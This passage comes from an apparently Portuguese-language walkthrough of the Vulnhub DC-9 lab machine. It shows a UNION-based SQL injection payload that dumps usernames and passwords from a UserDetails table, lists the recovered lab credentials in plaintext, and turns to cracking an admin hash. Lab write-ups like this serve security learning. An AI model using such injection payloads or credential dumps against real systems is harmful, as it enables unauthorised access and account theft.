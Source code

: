 


* Extraindo as informacoes (username e password) da tabela UserDetails

```bash
search=Fred' union select 1,username,password,4,5,6 from users.UserDetails #
```

![](/assets/img/Vulnhub/DC-9/info_UserDetails.png)

> marym:3kfs86sfd; julied:468sfdfsd2; fredf:4sfd87sfd1; barneyr:RocksOff; tomc:TC&TheBoyz; jerrym:B8m#48sd; wilmaf:Pebbles; bettyr:BamBam01; chandlerb:UrAG0D!; joeyt:Passw0rd; rachelg:yN72#dsd; rossg:ILoveRachel; monicag:3248dsds7s, phoebeb:smellycats; scoots:YR3BVxxxw87; janitor:Ilovepeepee; janitor2:Hawaii-Five-0




### Logando na Aplicacao

* Apos enumerarmos todas as informacoes possiveis no bando de dados por meio de SQLi, vamos tentar logar com as credenciais que achamos. Foram feitos alguns testes com os usuarios e as senhas dos funcionarios que encontramos no "UserDetails", poremo nao tivemos sucesso em nenhuma tentativa


* Lembra do username admin e o hash que estava no campo password. Vamos tentar quebrar aquele hash para ver onde pode nos levar

![](/assets/img/Vulnhub/DC-9/hashes.com.png)
